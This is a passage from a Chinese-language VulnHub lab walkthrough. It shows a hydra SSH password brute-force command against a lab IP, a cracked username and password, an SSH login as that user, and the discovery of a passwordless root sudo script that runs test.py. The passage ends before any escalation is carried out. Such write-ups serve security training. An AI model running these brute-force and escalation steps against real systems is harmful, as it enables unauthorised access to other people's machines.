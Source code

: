 ```
重新ssh密码爆破，爆破出新的用户fredf:B4-Tru3-001
hydra -L user_dict -P pass_dict 192.168.15.136 ssh  
```

![image-20241206222700109](vulnhub靶场实战/image-20241206222700109.png)	

```
登录这个新用户。
ssh fredf@192.168.15.136
```

![image-20241206223031999](vulnhub靶场实战/image-20241206223031999.png)	

```
发现这个用户可以以root权限并且无需登录，来执行test脚本。
```

![image-20241206223238196](vulnhub靶场实战/image-20241206223238196.png)	

```
发现这个脚本最后是执行test.py文件。
```

![image-20241206223353330](vulnhub靶场实战/image-20241206223353330.png)	
